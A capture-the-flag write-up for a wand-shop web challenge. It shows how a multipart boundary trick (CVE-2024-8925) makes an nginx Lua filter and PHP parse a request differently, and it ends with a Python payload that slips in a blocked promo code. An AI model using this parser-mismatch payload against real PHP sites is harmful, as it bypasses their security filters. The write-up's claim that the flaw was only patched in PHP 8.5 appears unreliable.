



## Quillthorn's Bargain  



We are given a wand shop, where if we purchase the legendary wand, we get the flag.  



In `/buy.php`, there is a voucher system where if we include the promo code `QUILLTHORN50` in our request, the price of the item will be halved.  

```php
require_once 'config.php';
$wants_json = isset($_SERVER['HTTP_ACCEPT']) && strpos($_SERVER['HTTP_ACCEPT'], 'application/json') !== false;
if ($_SERVER['REQUEST_METHOD'] !== 'POST') {
    header('Location: /shop.php');
    exit;
}
$promo_code = $_POST['promo_code'] ?? 'NONE';
if (!is_string($promo_code)) {
    $promo_code = 'NONE';
}
$item = $_POST['item'] ?? '';
if (!isset($full_prices[$item])) {
    if ($wants_json) {
        header('Content-Type: application/json');
        echo json_encode(['success' => false, 'message' => 'Unknown item.']);
        exit;
    }
    header('Location: /shop.php?err=' . urlencode('Unknown item.'));
    exit;
}
if ($promo_code === 'QUILLTHORN50') {
    $cost = (int)floor($full_prices[$item] * 0.5);
} else {
    $cost = $full_prices[$item];
}
$balance = get_balance();
if ($balance < $cost) {
    if ($wants_json) {
        header('Content-Type: application/json');
        echo json_encode(['success' => false, 'message' => 'Insufficient Gold! You need ' . $cost . ' but only have ' . $balance . '.']);
        exit;
    }
    header('Location: /shop.php?err=' . urlencode('Insufficient Gold! You need ' . $cost . ' but only have ' . $balance . '.'));
    exit;
}
deduct_balance($cost);
add_to_inventory($item);
$is_legendary = ($item === 'wand_prismatic_fury');
$wand_name = $wands[$item]['name'] ?? $item;
$wand_icon = $wands[$item]['icon'] ?? '';
if ($is_legendary) {
    $flag = trim(file_get_contents('/flag.txt'));
}
if ($wants_json) {
    header('Content-Type: application/json');
    $response = [
        'success' => true,
        'wand_name' => $wand_name,
        'icon' => $wand_icon,
        'cost' => $cost,
        'new_balance' => get_balance(),
        'legendary' => $is_legendary,
    ];
    if ($is_legendary) {
        $response['flag'] = $flag;
    }
    echo json_encode($response);
    exit;
}
if ($is_legendary) {
    $msg = 'The Wand of Prismatic Fury crackles with energy and reveals a secret: ' . $flag;
} else {
    $msg = 'You purchased ' . $wand_name . ' for ' . $cost . ' Gold!';
}
header('Location: /shop.php?msg=' . urlencode($msg));
exit;
```

In `config.php`, all user accounts have a default balance of `$100`, and since the legendary wand is `$200`, the promo code is just enough to make the purchase.  

```php
function register(string $name): void {
    $_SESSION['registered'] = true;
    $_SESSION['customer_name'] = $name;
    $_SESSION['balance'] = 100;
    $_SESSION['inventory'] = [];
}
```

However, the main obstacle of this challenge is the Nginx configuration.  

The `access_by_lua_block` section enforces `multipart-form/data` requests, and allows exactly one occurrence of the promo code text, which must end with `NONE`, effectively preventing us from applying the promo code normally.  

```nginx
large_client_header_buffers 4 16k;
client_body_buffer_size 1m;

server {
    listen 80 default_server;
    server_name _;

    root /var/www/html;
    index index.php;

    location / {
        try_files $uri $uri/ /index.php;
    }

    location ~ \.php$ {
        try_files $uri =404;

        access_by_lua_block {
            local function reject()
                ngx.status = 403
                ngx.say("Forbidden: invalid request")
                return ngx.exit(403)
            end

            if ngx.req.get_method() == "POST" and ngx.var.uri == "/buy.php" then
                local content_type = ngx.var.http_content_type or ""
                if not string.match(string.lower(content_type), "^%s*multipart/form%-data%s*;%s*boundary=[%w%-_]+%s*$") then
                    return reject()
                end
                local boundary = string.match(content_type, "[Bb][Oo][Uu][Nn][Dd][Aa][Rr][Yy]=([%w%-_]+)")

                ngx.req.read_body()
                local body = ngx.req.get_body_data()
                if not body then
                    local file = ngx.req.get_body_file()
                    if file then
                        local f = io.open(file, "r")
                        if f then
                            body = f:read("*a")
                            f:close()
                        end
                    end
                end
                if not body then
                    return reject()
                end

                local newline = string.find(body, "\n", 1, true)
                while newline do
                    if newline == 1 or string.sub(body, newline - 1, newline - 1) ~= "\r" then
                        return reject()
                    end
                    newline = string.find(body, "\n", newline + 1, true)
                end

                local delimiter = "--" .. boundary
                if string.sub(body, 1, #delimiter + 2) ~= delimiter .. "\r\n" then
                    return reject()
                end

                local compact_body = string.gsub(string.lower(body), "\r\n[ \t]*", "")
                local _, promo_mentions = string.gsub(compact_body, "promo", "")
                if promo_mentions ~= 1 then
                    return reject()
                end

                local header = 'Content-Disposition: form-data; name="promo_code"\r\n\r\n'
                local header_start = string.find(body, header, 1, true)
                if not header_start then
                    return reject()
                end

                local value_start = header_start + #header
                local next_delimiter = string.find(body, "\r\n" .. delimiter, value_start, true)
                if not next_delimiter then
                    return reject()
                end

                local value = string.sub(body, value_start, next_delimiter - 1)
                if string.sub(value, -4) ~= "NONE" then
                    return reject()
                end
            end
        }

        include fastcgi_params;
        fastcgi_pass 127.0.0.1:9000;
        fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
        fastcgi_param PATH_INFO $fastcgi_path_info;
    }

    location ~ /\.ht {
        deny all;
    }
}
```

Looking at the Dockerfile, we will notice that the challenge container installs php:8.3.11-fpm.  

```dockerfile
FROM php:8.3.11-fpm

RUN apt-get update && \
    apt-get install -y --no-install-recommends \
        nginx \
        libnginx-mod-http-lua \
        supervisor && \
    rm -rf /var/lib/apt/lists/*

...
```

In the [PHP 8 changelog](https://www.php.net/ChangeLog-8.php), we can see that there is [CVE_2024-8925](
https://nvd.nist.gov/vuln/detail/CVE-2024-8925) which is related to multipart form handling, and was only patched in `8.5`.  



We can find a POC for this CVE in this [Github article](https://github.com/php/php-src/security/advisories/GHSA-9pqp-7h25-4f32).  

If we create a multipart form with a large enough boundary, Lua will ignore the partial boundary we inserted before `NONE` and accept our payload, but `PHP` detects a large enough partial match of the boundary and will split the data there, accepting our promo code.  

This allows us to exploit the parser mismatch and apply the promo code to our purchase.  

```python
boundary = "A" * (6 * 1024)
boundary_prefix = boundary[:-4]

payload = (
    f"--{boundary}\r\n"
    'Content-Disposition: form-data; name="item"\r\n'
    "\r\n"
    f"wand_prismatic_fury\r\n"
    f"--{boundary}\r\n"
    'Content-Disposition: form-data; name="promo_code"\r\n'
    "\r\n"
    "QUILLTHORN50\r\n"
    f"--{boundary_prefix}NONE\r\n"
    f"--{boundary}--\r\n"
)
```

Making a `POST` request with our payload to the server will return the flag in the response.  

Flag: `Cyberthon{qu1llthorns_h4lf_pr1c3_sp3c14l}`